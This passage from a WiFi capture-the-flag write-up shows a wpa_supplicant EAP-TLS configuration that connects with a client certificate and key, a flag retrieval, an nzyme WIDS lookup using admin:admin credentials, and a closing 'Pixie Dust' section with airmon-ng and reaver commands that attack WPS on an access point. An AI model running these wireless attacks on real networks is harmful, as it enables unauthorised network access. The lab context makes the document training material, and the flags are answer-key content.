 key_mgmt=WPA-EAP
 auth_alg=OPEN
 eap=TLS
    #anonymous_identity="GLOBAL\anonymous"
 identity="GLOBAL\GlobalAdmin"
 ca_cert="./ca.crt"
 client_cert="./client.crt"
 private_key="./client.key"
 private_key_passwd="whatever" 
}
' > wpa_tls.conf

wpa_supplicant -Dnl80211 -i wlan4 -c ../../wpa_tls.conf
```

I'm connected:


I can't receive my dhcp address:

```shell
sudo dhclient -v wlan4
```

I can catch the flag:


**Flag :**  `flag{B7OXb7KhFHQCz6WHUMf2}`

## **27. What is the MAC of the first detected attacker in Nzyme?**

**Challenge Description :**  What is the MAC of the first detected attacker in Nzyme (UNEXPECTED_BSSID_PROBERESP)?

### Approach

Go to nzyme WIDS: http://127.0.0.1:22900 with `admin:admin` credentials.

Then `Alert` tab, last page and search for `UNEXPECTED_BSSID_PROBERESP`:


When I read details:


**Flag :**  `e0:9f:c2:71:22:15`

## Not in CTF

## **Pixie Dust**

Some WiFi APs are vulnerable to attacks on WPS. It's depend on the chipest of the AP.

Enable mode monitor on `wlan` interface:

```shell
sudo airmon-ng start wlan1
```

Run attack with `reaver`:

```shell
sudo reaver -i wlan1mon -b 00:AD:24:16:FC:F9 -K 1 -vvv
```

